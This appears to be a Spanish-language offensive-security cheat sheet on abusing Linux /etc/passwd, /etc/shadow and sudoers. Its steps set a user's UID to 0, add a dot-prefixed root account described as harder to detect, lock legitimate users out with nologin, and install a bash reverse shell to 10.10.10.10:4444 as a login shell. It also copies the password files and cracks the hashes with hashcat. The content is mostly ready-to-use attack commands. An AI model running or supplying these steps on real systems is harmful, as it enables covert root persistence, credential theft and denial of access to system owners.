 #### Cambiar el campo `x` por hash
También podemos cambiar el campo `x` hardcodeando el hash de una contraseña generada manualmente con `mkpasswd`ó `openssl`. Ejemplo de creación de contraseña con `openssl`:
```bash
openssl passwd -6 "mi_contraseña"
```

#### Modificar usuario existente en root
Modificar una línea como esta
```textplain
usuario:x:1001:1001:User:/home/usuario:/bin/bash
```
por esta:
```textplain
usuario:x:0:0:User:/root:/bin/bash
```

#### Crear un nuevo usuario que pase desapercibido
Añadir una línea como la que sigue
```textplain
.sys:x:0:0::/root:/bin/bash
```
Creará un usuario con privilegios de root pero es más difícil de detectar porque el nombre empieza por `.`

#### Deshabilitar acceso a usuarios legítimos
Cambiar la shell de un usuario a `/usr/bin/nologin`
```textplain
usuario:x:1001:1001::/home/usuario:/usr/sbin/nologin
```

#### Escalación a través de shell inverso
Para ello habrá que crear un script como el que sigue (supongamos que está en `/usr/local/bin/shell_inverso.sh)
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

darle permisos de ejecución 
```bash
chmod +x /usr/local/bin/shell_inverso.sh
```
y configurar esta línea para un usuario dado:
```textplain
usuario:x:1001:1001::/home/usuario:/usr/local/bin/shell_inverso.sh
```
De esta manera se está cambiando el comportamiento predeterminado del usuario, lo que hace que el usuario no pueda tener acceso a una shell interactiva tradicional, lo que podría levantar sospechas

## Craqueo de contraseñas
Una forma podría ser la siguiente, utilizando `hashcat`
```bash
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```
## /etc/sudoers
- Explicación línea a línea del contenido de `/etc/sudoers`
```bash
<usuario> <maquinas> = (<usuarios_a_impersonar>) <comandos_permitidos>
#Ejemplo de usuario que tiene acceso a todo pero sin contraseña para tcpdump
joe ALL=(ALL) NOPASSWD: /usr/bin/tcpdump 
joe ALL=(ALL) ALL
```
